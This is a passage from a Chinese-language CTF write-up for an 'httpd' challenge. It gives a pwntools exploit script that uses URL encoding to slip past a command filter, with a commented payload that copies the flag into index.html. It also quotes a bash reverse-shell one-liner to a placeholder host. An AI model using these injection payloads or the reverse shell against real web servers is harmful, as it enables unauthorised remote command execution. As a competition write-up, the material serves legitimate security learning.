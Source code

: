 
## httpd

这道题非常抽象，我的做法是 `%xx` url 编码绕过检查：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
# set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc
context.log_level = "debug"


def get_payload(command):
    payload = b"get /" + command + b" HTTP/1.0\r\n"
    payload += b"Host: 127.0.0.1\r\n"
    payload += f"Content-Length: 100\r\n".encode()
    payload += b"Content-Type: application/x-www-form-urlencoded\r\n"
    payload += b"Connection: close\r\n"
    payload += b"\r\n"
    return payload


# payload = get_payload(b"cat%20/fla*>/home/ctf/html/index.html")
payload = get_payload(b"index.html")
s(payload)

ia()

# 73037178244216013737456202378991
```

还有一种做法是远程开反弹 shell 连接到服务器，首先指定 `'GET /"s"h HTTP/1.0\r\n'` 起一个 shell，再传反弹 shell 的 payload：

```bash
'bash -c "bash -i >& /dev/tcp/xx.xx.xx.xx/xxxxx 0>&1"'
```

总而言之这道题的难点看起来就是绕过字符过滤。

---

## Hard Sandbox

